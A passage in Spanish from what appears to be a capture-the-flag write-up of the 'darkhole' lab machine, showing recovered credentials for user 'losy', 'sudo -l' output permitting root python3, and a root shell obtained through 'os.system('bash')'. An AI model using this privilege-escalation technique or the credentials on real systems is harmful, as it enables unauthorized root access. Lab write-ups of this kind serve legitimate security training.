 Podemos observar unas credenciales que corresponden con nuestro usuario "losy"

- losy:gang

Si miramos nuestros privilegios de sudo vemos que podemos ejecutar como root **python3**.

```bash
losy@darkhole:~$ sudo -l
[sudo] password for losy: 
Matching Defaults entries for losy on darkhole:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```

Ahora podremos escalar privilegios y convertirnos en usuario root de una forma sencilla.
Importando la libreria **os.py** podremos ejecutar comandos a nivel de sistema.

```python
losy@darkhole:~$ sudo python3
Python 3.8.10 (default, Jun  2 2021, 10:49:15) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system('bash')
root@darkhole:/home/losy#
```

